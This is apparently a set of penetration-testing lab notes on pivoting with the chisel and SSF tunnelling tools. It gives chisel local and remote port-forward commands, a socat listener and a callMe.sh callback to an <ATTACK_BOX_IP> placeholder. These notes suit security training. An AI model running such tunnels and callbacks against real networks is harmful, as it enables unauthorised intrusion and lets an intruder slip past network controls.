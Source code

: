 #### Local port forward

```
[[ Chisel~LocalForward ]]*
lsof -i tcp:9999
~/tools/chisel/chisel client tom:80 9999:linux:80 &
lsof -i tcp:9999
```

```
[[ Chisel~Callback ]]
lsof -i tcp:4444
	socat -u tcp-listen:4444,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
callMe.sh 127.0.0.1 9999 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
```

#### Remote port forward

```
[[ Chisel~RemoteForward ]]*
ssh root@tom ss -punta | grep 8888
	#check to see if the port is open
~/tools/chisel/chisel client tom:80 R:8888:127.0.0.1:4444 &
ssh root@tom ss -punta | grep 8888
	#check to see if the port is open again
```

```
[[ Chisel~Callback ]]
lsof -i tcp:4444
	socat -u tcp-listen:4444,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
callMe.sh linux 80 tom 8888 tcp
cat /tmp/PROOF
```

#### Clean up all the chisels

```
pkill chisel
ssh root@tom pkill chisel
```

### SSF

```
[[ SSF~Prep ]]*
cd tools/ssf/ssf-linux-x86_64-3.0.0
```

#### modify config.json file

##### Create your own certs
